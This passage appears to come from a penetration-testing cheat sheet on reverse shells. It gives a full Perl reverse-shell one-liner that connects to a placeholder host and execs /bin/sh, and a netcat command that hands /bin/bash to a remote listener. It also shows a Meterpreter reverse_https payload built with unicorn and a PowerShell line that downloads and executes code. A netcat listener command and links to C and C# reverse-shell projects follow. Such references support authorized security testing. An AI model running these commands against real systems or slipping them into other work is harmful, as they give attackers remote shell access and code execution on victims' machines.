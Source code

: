 ```
use Socket;$i="<LHOST>";$p=<LPORT>;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};
```




## C

- [https://gitlab.com/ORCA666/sshell](https://gitlab.com/ORCA666/sshell)
- [https://github.com/izenynn/c-reverse-shell](https://github.com/izenynn/c-reverse-shell)




## C\#

- [https://github.com/antonioCoco/ConPtyShell](https://github.com/antonioCoco/ConPtyShell)
- [https://github.com/0xsp-SRD/0xsp.com/tree/main/rev_shell_xor_enc](https://github.com/0xsp-SRD/0xsp.com/tree/main/rev_shell_xor_enc)




## Netcat

* [https://blog.ikuamike.io/posts/2021/netcat/](https://blog.ikuamike.io/posts/2021/netcat/)

```
$ {nc.tradentional|nc|ncat|netcat} <LHOST> <LPORT> {-e|-c} /bin/bash
```




## Meterpreter



### unicorn

* [https://github.com/trustedsec/unicorn](https://github.com/trustedsec/unicorn)

```
$ python3 unicorn.py windows/meterpreter/reverse_https 10.10.13.37 443
$ sudo msfconsole -qr unicorn.rc
PS > IEX(New-Object Net.WebClient).DownloadString('powershell_attack.txt')
```




## Listeners

```
$ {nc.tradentional|nc|ncat|netcat} [-6] -lvnp <LPORT>
```

